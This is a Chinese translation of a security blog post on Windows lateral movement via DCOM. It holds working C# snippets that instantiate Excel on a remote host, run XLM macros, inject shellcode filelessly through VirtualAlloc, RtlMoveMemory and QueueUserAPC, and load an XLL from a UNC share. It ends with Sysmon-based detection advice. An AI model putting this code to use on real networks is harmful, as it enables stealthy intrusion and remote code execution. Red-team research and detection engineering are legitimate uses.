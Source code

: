 > 原文链接: https://www.anquanke.com//post/id/217928 


# Windows横向移动全攻略（二）：DCOM


                                阅读量   
                                **151356**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者Dominic Chell，文章来源：mdsec.co.uk
                                <br>原文地址：[https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-2-dcom/](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-2-dcom/)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p2.ssl.qhimg.com/t01c2c8d6e7093d16dd.jpg)](https://p2.ssl.qhimg.com/t01c2c8d6e7093d16dd.jpg)



## 0x00 概述

在本系列的第一部分中，我们讨论了如何利用WMI事件订阅实现横向移动。在这篇文章中，我们将关注如何利用另一种方式——分布式组件对象模型（DCOM）来进行横向移动。由于在许多其他文章中都分析过DCOM，在这里我就不再赘述，但是我们首先还是简要介绍一下什么是DCOM，以及为什么它值得我们进一步研究和关注。

COM是Windows的一个组件，用于增强软件之间的可操作性，DCOM使用远程过程调用（RPC）将其扩展到整个网络上。因此，在远程系统上托管COM服务器端的软件（通常在DLL或exe中）可以通过RPC向客户端公开其方法。<br>
使用DCOM进行横向移动的优势之一在于，在远程主机上执行的进程将会是托管COM服务器端的软件。举例来说，如果我们滥用ShellBrowserWindow COM对象，那么就会在远程主机的现有explorer.exe进程中执行。对攻击者而言，这无疑能够增强隐蔽性，由于有大量程序都会向DCOM公开方法，因此防御者可能难以全面监测所有程序的执行。



## 0x01 探索DCOM方法

为了探索支持DCOM的应用程序，我们可以使用`Win32_DCOMApplication`WMI类进行列举：

[![](https://p4.ssl.qhimg.com/t0101aa41a3a79bc840.png)](https://p4.ssl.qhimg.com/t0101aa41a3a79bc840.png)

根据这个列表，接下来可以实例化每个AppID，并使用 `Get-Member`cmdlet列出可用的方法：

[![](https://p5.ssl.qhimg.com/t01d2ae2cf500e875ef.png)](https://p5.ssl.qhimg.com/t01d2ae2cf500e875ef.png)

在这个示例中，我们可以看到`ShellBrowserWindow` COM对象的公开方法。这个对象有一种比较常用的方法，就是其中的`Document.Application.ShellExecute`。



## 0x03 实际案例：以Excel为例

在我第一次进行这项研究时，我的最初目标是希望能发现一个新的COM对象。但遗憾的是，由于时间有限，我的探索工作还没有取得成果，因此，我在这里将分享一些我最常用的技术，即利用Excel横向移动到工作站。

对于如何创建Excel COM类的实例，我们有很多可以使用的方法：

[![](https://p2.ssl.qhimg.com/t0159d740b02f4c229e.png)](https://p2.ssl.qhimg.com/t0159d740b02f4c229e.png)

对这些方法进行检查，至少会找到其中两种已知的横向移动方式——ExecuteExcel4Macro和RegisterXLL。接下来，将逐一介绍如何开发C#工具，利用这两种方法来实现横向移动。

### <a class="reference-link" name="3.1%20%E5%88%A9%E7%94%A8ExecuteExcel4Macro%E5%AE%9E%E7%8E%B0%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8"></a>3.1 利用ExecuteExcel4Macro实现横向移动

这项技术最早由Outflank的Stan Hegt发布，用于远程执行Excel宏。这种方法的主要优势在于，目前的反病毒引擎还没有普遍支持XLM宏，并且利用这种技术，可以在DCOM启动的excel.exe进程内以无文件的方式执行该技术。因此，这种方法允许攻击者将与横向移动技术相关的指标最小化，并降低检测的概率。<br>
首先，需要实例化Excel COM对象的实例，以执行其方法。之前我们展示了如何在PowerShell中执行此操作，等价的C#代码如下：

```
Type ComType = Type.GetTypeFromProgID("Excel.Application", REMOTE_HOST);
object excel = Activator.CreateInstance(ComType);
```

此时，我们可以开始使用`InvokeMember`调用XLM代码，来执行实例的`ExecuteExcel4Macro`方法，我们可以使用以下方法来弹出计算器：

```
excel.GetType().InvokeMember("ExecuteExcel4Macro", BindingFlags.InvokeMethod, null, excel, new object[] `{` "EXEC(\\"calc.exe\\")" `}`);
```

为了实现这种技术的武器化，在理想情况下，我们还是希望它能以无文件的方式执行。参照Outflank的解释，XLM代码可以直接访问Win32 API，因此我们可以将其写入内存，并启动新线程，从而执行Shellcode：

```
var memaddr = Convert.ToDouble(excel.GetType().InvokeMember("ExecuteExcel4Macro", BindingFlags.InvokeMethod, null, excel, new object[] `{` "CALL(\\"Kernel32\\",\\"VirtualAlloc\\",\\"JJJJJ\\"," + lpAddress + "," + shellcode.Length + ",4096,64)" `}`));
var startaddr = memaddr;

foreach (var b in shellcode) `{`
    var cb = String.Format("CHAR(`{`0`}`)", b);
    var macrocode = "CALL(\\"Kernel32\\",\\"RtlMoveMemory\\",\\"JJCJ\\"," + memaddr + "," + cb + ",1)";
    excel.GetType().InvokeMember("ExecuteExcel4Macro", BindingFlags.InvokeMethod, null, excel, new object[] `{` macrocode `}`);
    memaddr++;
`}`
excel.GetType().InvokeMember("ExecuteExcel4Macro", BindingFlags.InvokeMethod, null, excel, new object[] `{` "CALL(\\"Kernel32\\",\\"QueueUserAPC\\",\\"JJJJ\\"," + startaddr + ", -2, 0)" `}`);
```

当然，可以通过逐字节移动的方式来改进上述方法，实现远程进程注入，并加快执行速度。

### <a class="reference-link" name="3.2%20%E5%88%A9%E7%94%A8RegisterXLL%E5%AE%9E%E7%8E%B0%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8"></a>3.2 利用RegisterXLL实现横向移动

我们借助Excel实现横向移动的第二种方法是RegisterXLL方法，该方法最早由Ryan Hanson发表。这种方式相对简单，顾名思义，RegisterXLL方法允许我们执行XLL文件。该文件只是xlAutoOpen导出的DLL。但是，这种方法的优势有两个，其一是文件的扩展名并不影响，其二是该方法支持UNC路径，也就是说它不需要托管在我们要进行横向移动的系统上。<br>
要编写这种技术的工具非常简单，只需要几行，就可以创建出Excel COM对象的实例，并调用带单个参数（即XLL文件路径）的RegisterXLL方法：

```
string XLLPath = "\\\\\\\\fileserver\\\\excel.log";
Type ComType = Type.GetTypeFromProgID("Excel.Application", REMOTE_HOST);
object excel = Activator.CreateInstance(ComType);
excel.GetType().InvokeMember("RegisterXLL", BindingFlags.InvokeMethod, null, excel, new object[] `{` XLLPath `}`);
```

通过下面的视频，可以展示这种技术的实际效果：<br>
视频：[https://vimeo.com/459000320](https://vimeo.com/459000320)



## 0x04 检测方式

DCOM横向移动技术的检测可能非常复杂，但是一般来说，可以检测到攻击者通过DCOM实例化了某一个进程，因为该进程将会通过`DCOMLaunch`服务执行，或者以`DllHost.exe`作为父进程来执行。可以使用Sysmon Process Create事件（ID 1）来捕获这些事件，如下图所示：

[![](https://p1.ssl.qhimg.com/t0162a4bb654df6369e.png)](https://p1.ssl.qhimg.com/t0162a4bb654df6369e.png)

我们注意到，在这种情况下，Excel会使用到`/automation -Embedding`参数，这也能表明该进程已经通过自动化的方式启动。

为了有针对性的检测攻击者是否滥用RegisterXLL技术，可以监视ImageLoad事件（ID 7），筛查其中映像为XLL文件的事件：

[![](https://p1.ssl.qhimg.com/t0155e909bc88665ca9.png)](https://p1.ssl.qhimg.com/t0155e909bc88665ca9.png)

如果要检测ExecuteExcel4Macro技术的滥用就变得更加复杂，因为宏代码会在进程中执行，并且不一定需要额外的映像加载或类似操作。
